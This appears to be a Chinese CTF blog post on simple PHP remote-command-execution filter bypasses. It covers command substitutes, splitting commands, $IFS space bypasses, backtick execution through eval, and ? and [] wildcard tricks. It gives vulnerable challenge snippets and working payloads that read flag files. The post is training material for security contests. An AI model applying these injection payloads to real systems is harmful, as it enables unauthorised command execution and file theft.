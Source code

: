 ```yaml
---
title: "简单的RCE"
subtitle: ""

description: ""

date: 2024-03-04T15:08:47+08:00
draft: false

tags: ["RCE"]
categories: ["Bypass"]

---
```


## 闲话

原本是打算把所有的RCE姿势写在一篇发出来的，没能想到这里面的水这么深，被迫分篇记录

这一篇就写点简单的RCE吧

## 常见命令的替代

```
ls —— dir
cat —— tac、head、more、less、tail
```

## 分割命令

经常会碰见将各种命令列入黑名单的题，但若正则表达式过于普通，就可以直接分割命令来进行绕过

可用`\`、`''`来讲分割

## 空格绕过

常常会遇见空格被过滤的情况，可以用以下语句绕过

```
$IFS
${IFS}
$IFS$9
<>
```

另外还有很多，实战时这几种就够用，要根据不同的情况使用不同的语句来绕过

## 反引号执行

在某些题目中，往往只给我们`eval()`函数，若此时system一类的执行命令的函数也被限制

就可以用php中反引号可以执行命令的特性来实现命令执行

举个复杂点的栗子（也没复杂到哪去）

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$code = $_POST['code'];
$code = str_replace("(","括号",$code);
$code = str_replace(".","点",$code);
eval($code); 
?>
```

本题中过滤了`(`与`.`

由于用反引号执行并不会有回显，所以我们需要`echo`、`printf`、`var_dump`这类语句或函数来输出命令执行的结果

payload

```
code=echo `cat /f*`;
```

## 通配符绕过

我目前遇见的通配符绕过只有两种

`?`：用于匹配单个字符

`[]`：用于匹配一个字符范围

栗题1：

```php
<?php   
error_reporting(0);  
highlight_file(__FILE__);  

if (isset($_POST['ctf_show'])) {    
    $ctfshow = $_POST['ctf_show'];  
    if (!preg_match("/[b-zA-Z_@#%^&*:{}\-\+<>\"|`;\[\]]/",$ctfshow)){
        system($ctfshow);  
    }
    else{  
        echo("????????");  
    }  
}  
?>
```

题目告诉我们可以用`/getflag`直接获取flag，仔细查看正则便能发现字符`a`被放出来了

这时就能用`?`来匹配其他字母

payload

```
ctf_show=/?????a?
```

栗题2：

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$shell = $_POST['shell'];
$cmd = $_GET['cmd'];
if(preg_match('/f|l|a|g|\*|\?/i',$cmd)){
    die("Hacker!!!!!!!!");
}
eval($shell($cmd)); 
```

可以看到四个字母都被过滤，但其他字母与`[]`被放了出来，这时就能用`[]`来匹配所需字母的范围

payload

```
?cmd=more /[e-g][k-m][0-b][e-h]

shell=system
```